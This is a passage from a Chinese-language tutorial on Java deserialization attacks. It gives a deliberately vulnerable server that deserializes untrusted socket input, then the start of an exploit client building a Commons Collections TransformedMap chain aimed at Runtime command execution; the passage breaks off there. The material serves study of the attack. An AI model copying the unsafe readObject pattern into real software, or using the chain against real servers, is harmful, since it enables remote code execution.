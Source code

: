 8.2.3) VulnerableServer.java

```java
*
 * javac -encoding GBK -g VulnerableServer.java
 */
import java.io.*;
import java.net.*;

public class VulnerableServer
{
    public static void main ( String[] argv ) throws Exception
    {
        String          addr        = argv[0];
        int             port        = Integer.parseInt( argv[1] );
        InetAddress     bindAddr    = InetAddress.getByName( addr );
        /*
         * https://docs.oracle.com/javase/8/docs/api/java/net/ServerSocket.html
         */
        ServerSocket    s_listen    = new ServerSocket( port, 0, bindAddr );
        while ( true )
        {
            Socket              s_accept    = s_listen.accept();
            ObjectInputStream   ois         = new ObjectInputStream( s_accept.getInputStream() );
            Object              obj         = ois.readObject();
            ois.close();
            s_accept.close();
        }
    }
}
```

同"JNDI注入"中JtaTransactionManager利用链所用，此处略。就是侦听一个端口，
从客户端读取序列化数据，显式执行反序列化操作。KINGX在[49]中用现实世界中的
Jenkins作为攻击目标，这需要额外的环境搭建。为了聚焦反序列化本身，本节不涉
及Jenkins。

也可以不用网络通信，就用文件作为中间介质，客户端将序列化数据写入文件，服务
端从文件读入序列化数据进行反序列化，与本次演示方案本质上没有区别。

8.2.4) EvilClientWithTransformedMap.java

```java
*
 * javac -encoding GBK -g -cp "commons-collections-3.1.jar" EvilClientWithTransformedMap.java
 */
import java.io.*;
import java.net.*;
import java.util.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.TransformedMap;

public class EvilClientWithTransformedMap
{
    @SuppressWarnings("unchecked")
    public static void main ( String[] argv ) throws Exception
    {
        String              addr        = argv[0];
        int                 port        = Integer.parseInt( argv[1] );
        String              cmd         = argv[2];
        Transformer[]       tarray      = new Transformer[]
        {
            new ConstantTransformer( Runtime.class ),
```